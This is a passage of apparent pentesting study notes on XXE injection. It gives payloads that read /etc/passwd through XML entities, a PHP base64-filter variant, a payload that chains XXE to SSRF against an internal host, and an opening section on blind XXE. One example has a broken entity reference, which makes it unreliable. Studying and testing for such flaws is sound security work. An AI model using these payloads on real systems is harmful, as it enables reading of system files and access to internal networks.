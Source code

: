 In a Linux server go for 

```
# example 1
<?xml version = "1.0"?><!DOCTYPE foo [<!ENTITY example1 SYSTEM "/etc/passwd"> ]>
<order>
    <quantity>2</quantity>
    <item>&example1;</item>
    <address>1</address>
</order>


# example 2
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY example2 SYSTEM "file:///etc/passwd" > ]>
<order>
    <quantity>2</quantity>
    <item>&example2;</item>
    <address>1</address>
</order>
```


**Encoding techniques**

```
# Base encoded XXE
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

This filter return the file base64-encoded to avoid data loss and truncate.

### 2. Chaining XXE to SSRF attacks

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. 

```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

You would then make use of the defined entity in a data value within the XML.

[See this lab with an example of exploitation](../burpsuite/burpsuite-xxe.md#exploiting-xxe-to-perform-ssrf-attacks)


### 3. Blind XXE vulnerabilities

Sometimes the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

Blind XXE requires the use of out-of-band techniques, and call the parameter (for example xxe) just after the ENTITY definition. Therefore, XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.
